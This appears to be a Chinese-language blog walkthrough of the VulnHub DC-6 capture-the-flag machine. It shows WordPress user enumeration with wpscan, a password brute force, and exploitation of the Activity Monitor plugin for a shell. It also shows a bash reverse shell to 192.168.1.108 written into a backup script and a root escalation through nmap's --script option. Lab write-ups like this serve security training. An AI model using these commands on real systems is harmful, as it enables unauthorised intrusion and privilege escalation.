 ```yaml
---
layout: post
title:  "vulnhub >_ DC_6"
description: walkthrough
category: vulnhub
---
```

# DC_6

![image-20200615013941834]({{ site.url }}/assets/DC_6.assets/image-20200615013941834.png)

![image-20200615014047556]({{ site.url }}/assets/DC_6.assets/image-20200615014047556.png)

![image-20200615014629529]({{ site.url }}/assets/DC_6.assets/image-20200615014629529.png)

![image-20200615041725018]({{ site.url }}/assets/DC_6.assets/image-20200615041725018.png)



修改host

![image-20200615021530085]({{ site.url }}/assets/DC_6.assets/image-20200615021530085.png)

wpscan

```bash
wpscan --url http://wordy -e ap,vt,cb,u
```

![image-20200615021714721]({{ site.url }}/assets/DC_6.assets/image-20200615021714721.png)

![image-20200615021801259]({{ site.url }}/assets/DC_6.assets/image-20200615021801259.png)

```bash
wordpress v5.1.1
theme twentyseventeen v2.1
user :	admin	sarah	graham	mark	jens
```

制作字典，暴力登录

```bash
wpscan --url http://wordy -U users.txt -P /usr/share/wordlists/rockyou.txt

mark:helpdesk01
```

登录之前扫到的登录点http://wordy/wp-admin/



![image-20200615041614632]({{ site.url }}/assets/DC_6.assets/image-20200615041614632.png)

看了一圈没有常用的可利用的项。

查看一下插件

![image-20200615075101710]({{ site.url }}/assets/DC_6.assets/image-20200615075101710.png)

Activity Monitor

![image-20200615075415246]({{ site.url }}/assets/DC_6.assets/image-20200615075415246.png)

将漏洞文件的html文件部分复制出来并修正

![image-20200615082126056]({{ site.url }}/assets/DC_6.assets/image-20200615082126056.png)

在工作目录下拉起http服务

![image-20200615082216693]({{ site.url }}/assets/DC_6.assets/image-20200615082216693.png)

![image-20200615082305516]({{ site.url }}/assets/DC_6.assets/image-20200615082305516.png)

浏览器访问kalihttp服务下修改过的evil页面，点击`submit request`提交请求，此时监听得到shell

![image-20200615082428509]({{ site.url }}/assets/DC_6.assets/image-20200615082428509.png)

枚举之后发现新用户凭证

![image-20200615082811854]({{ site.url }}/assets/DC_6.assets/image-20200615082811854.png)

```bash
graham:GSo7isUM1D4
```

尝试ssh，直接发现新线索

![image-20200615083058866]({{ site.url }}/assets/DC_6.assets/image-20200615083058866.png)

![image-20200615083252359]({{ site.url }}/assets/DC_6.assets/image-20200615083252359.png)

这个脚本还可以直接修改。写个shell进去.注意使用单双引号的区别，单引号帮助跳过识别叹号

```bash
echo '#!/bin/bash' > /home/jens/backups.sh
echo "bash -i >& /dev/tcp/192.168.1.108/1337 0>&1" >> /home/jens/backups.sh
```

![image-20200615085012819]({{ site.url }}/assets/DC_6.assets/image-20200615085012819.png)

```bash
sudo -u jens /home/jens/backups.sh
```

![image-20200615085244424]({{ site.url }}/assets/DC_6.assets/image-20200615085244424.png)

执行nmap，nmap需要利用脚本，

```bash
cd ~
echo 'os.execute("/bin/bash")' > evil
sudo  nmap  --script=evil
```

![image-20200615085620557]({{ site.url }}/assets/DC_6.assets/image-20200615085620557.png)